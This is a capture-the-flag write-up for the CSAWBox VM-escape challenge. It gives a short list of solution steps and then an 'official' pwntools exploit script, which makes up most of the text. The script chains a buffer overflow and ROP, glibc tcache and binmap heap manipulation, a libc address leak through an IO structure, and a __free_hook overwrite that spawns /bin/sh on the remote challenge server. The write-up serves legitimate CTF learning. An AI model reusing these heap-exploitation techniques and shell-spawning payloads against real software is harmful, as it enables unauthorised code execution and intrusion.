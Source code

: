 # CSAWBox
It's a challenge about VM escaping: a binary runs in the VM and people should use two vulnerabilities to escape from the VM.

# Solution
1. Use BoF in check to perform ROP to trigger VM vulnerability
2. back to binary after freeing tcahce_perthread_struct
3. Partial write + Use binmap as the head of chunk
4. Use tacheche-key to bypass a crash in strtol
5. IO Leak + __free_hook hijack

# Exploit
```
#Official exploit by @n132 (P[success]~=1/256)
#One(2) byte(s) Off to free tcache_perthread_struct
#binmap -> the header of fake chunk
#tcache key -> bypass strtol
#----------------------------------------------------
from pwn import *
def f(size,c=b'\0'*8,escape="A"):
	p.sendlineafter("Message:\n",str(size).encode('utf8'))
	p.sendafter("Content:\n",c)
	p.sendafter("?\n",escape)
def bits(index,k=1):
	bitmap=[0]*0x80
	bitmap[index*2]=k
	bitmap=bytes(bitmap)
	return bitmap
try:
	debug=0
	#context.log_level='debug'
	if(debug):
		p=process("./pwn")
	else:
		p=remote("pwn.chal.csaw.io",5008,timeout=5)
	add=376
	free=388
	read_int=400
	f(100,b"A",b"1"*0x30+b"A"*8+p64(add)+p64(read_int)+p64(free)+p64(0))
	p.sendafter("Content:\n",b"A\n")

	p.send("A"*0x10+'\x10')
	
	f(0xc8+0x90,p64(0x21)*((0x90+0xc8)//8))
	f(0x98)
	f(0x288,bits(8,8))
	f(0x298,p64(0x21)*(0x200//8))
	f(0x98)
	if(debug):
		f(0x288,bits(20,1)+p64(0)*20+b'\x10\xac')#1/16
	else:
		f(0x288,bits(20,1)+p64(0)*20+b'\x10\x0c')#1/16

	f(0xa8)
	f(0x408,b'\0'*0x18+p64(0x671))
	f(0x3f8,p64(0x21)*(0x3f0//8))
	f(0xb8)
	f(0xc8)
	if(debug):
		f(0x288,bits(9,1)+p64(0)*9+b'\x20\xb0')#1/16
	else:
		f(0x288,bits(9,1)+p64(0)*9+b'\x20\x10')#1/16
	f(0xa8,b"\0"*0x10)# 
	f(0x699)#0x7ffff7fad3f0
	if(debug):
		f(0x288,bits(10,1)+p64(0)*10+b'\xf0\xab')#1/16
		f(0xb8,b'\0'*0x18+p64(0x1c1)+b'\xf0\xd3')#1/256
	else:
		f(0x288,bits(10,1)+p64(0)*10+b'\xf0\x0b')#1/16
		f(0xb8,b'\0'*0x18+p64(0x1c1)+b'\xf0\xd3')#1/256
	f(0x288,bits(20,8))
	f(0x158)
	f(0x158,p64(0)*0x21+p64(0x1f1))
	f(0x288,bits(30,1)+p64(0)*30+b'\x00\xd5')#1/256
	#
	p.sendlineafter("Message:\n",str(0x1f8).encode('utf8'))
	p.sendafter("Content:\n",b'\0'*0x1a0+p64(0x1802)+p64(0)*3+b'\0')
	p.read(0x8)
	base=u64(p.read(0x8))-(0x7ffff7fac980-0x7ffff7dc1000)
	log.warning(hex(base))
	p.sendlineafter("?\n","Get libc-base")

	f(0x288,bits(30,1)+p64(0)*30+p64(0x1eeb20+base))
	p.sendlineafter("Message:\n",str(0x1f8).encode('utf8'))
	p.sendafter("Content:\n",b'/bin/sh\0'+p64(base+0x55410))
	p.interactive()
except Exception:
	p.close()
```

# Thanks
Thank you, everyone! Wish this challenge could give you a great experience about baby VM escaping and you guys could enjoy the exploit part.
And congratulations to `Shellphish` and `Tower of Hanoi`! Welcome to share your solutions!